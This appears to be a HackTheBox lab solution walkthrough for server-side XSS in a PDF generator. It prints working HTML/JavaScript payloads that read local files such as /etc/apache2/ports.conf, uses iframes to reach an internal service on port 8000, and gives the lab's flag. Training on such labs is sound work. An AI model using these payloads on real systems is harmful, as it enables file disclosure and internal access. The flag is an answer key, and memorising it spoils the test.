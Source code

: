 Students will notice that only the "Note" content has become bold; therefore, injecting HTML is possible:

![[HTB Solutions/CWEE/z. images/f146bea8355febafe55608eb2cabb508_MD5.jpg]]

Subsequently, students need to enumerate the web server (which in this case is `Apache`) to discover what ports are listening internally by reading the contents of `/etc/apache2/ports.conf`; students will find that the internal web application is running on port 8000 (otherwise, had it been that the internal web application is running on another server (such as a Python web development framework), students can try the ports from [common-http-ports](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Infrastructure/common-http-ports.txt)):

Code: html

```html
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write((this.responseText))
	};
	x.open("GET", "file:///etc/apache2/ports.conf");
	x.send();
</script>
```

![[HTB Solutions/CWEE/z. images/38a2e2bc94732b8c109f5e7b165c1628_MD5.jpg]]

Now that the port is known, students need to interact with the internal web server:

Code: html

```html
<iframe src="http://127.0.0.1:8000/" width="800" height="500"></iframe>
```

When checking the generated PDF file attained, students will notice that the internal web application exposes the implemented endpoints, with only `/users` available:

![[HTB Solutions/CWEE/z. images/ec94f3ff58dc0cb0ad1198ad9f33f371_MD5.jpg]]

Therefore, students need to probe `/users`, to find that it exposes the location of the "keys" for `admin` and `htb-stdnt`:

Code: html

```html
<iframe src="http://127.0.0.1:8000/users" width="800" height="500"></iframe>
```

![[HTB Solutions/CWEE/z. images/17f1caf32994ae9ef95a2623efc13f72_MD5.jpg]]

Knowing that the key for `admin` is at `/users/adminkey.txt`, students need to exfiltrate its value via a `Server-Side XSS` payload, finding it to be `HTB{2c90e0faba24f347f18dddeee0d71fb6}`:

Code: html

```html
<script> x = new XMLHttpRequest(); x.onload = function(){ document.write(this.responseText) }; x.open("GET", "file:///users/adminkey.txt"); x.send(); </script>
```
